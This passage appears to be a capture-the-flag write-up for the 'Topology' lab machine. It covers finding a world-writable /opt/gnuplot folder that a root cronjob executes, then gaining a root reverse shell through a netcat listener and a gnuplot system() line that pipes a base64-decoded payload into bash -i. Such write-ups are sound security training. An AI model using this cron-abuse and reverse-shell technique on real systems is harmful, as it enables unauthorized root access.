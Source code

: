 ```
71fe1149f013c182f54bba5b84b32a70
```

### Exploring `/opt`

If we explore `/opt`, we notice a `gnuplot` folder:

```sh
vdaisley@topology:~$ ls -la "/opt"
```

```
<SNIP>
drwxr-xr-x  3 root root 4096 May 19  2023 .
drwxr-xr-x 18 root root 4096 Jun 12  2023 ..
drwx-wx-wx  2 root root 4096 Jun 14  2023 gnuplot
```

Weirdly, we can write to this folder, but we can't read it.

If we run `pspy`, we see that there's a cronjob running every minute that
executes all PLT files in the `/opt/gnuplot` folder as `root`. This is probably
used to execute scripts to update the graph for the `stats.topology.htb`
subdomain.

The good news is that we have write access to the `/opt/gnuplot` folder, and
that `root` executes all PLT files in this folder. This means that we can create
a PLT file that will be executed using `gnuplot` as `root`!

## Privilege escalation (Cronjob)

The `gnuplot` utility is a program that can generate two-dimensional and
three-dimentional plots of functions, data, and data fits.

This utility can execute PLT files.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the Base64 encoded version of the 'Bash -i' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

### Exploitation

I'll create a `privesc.plt` file in `/opt/gnuplot` to execute this command:

```py
system "/bin/echo <BASE64_REVSHELL_PAYLOAD> | /usr/bin/base64 -d | /bin/bash -i"
```
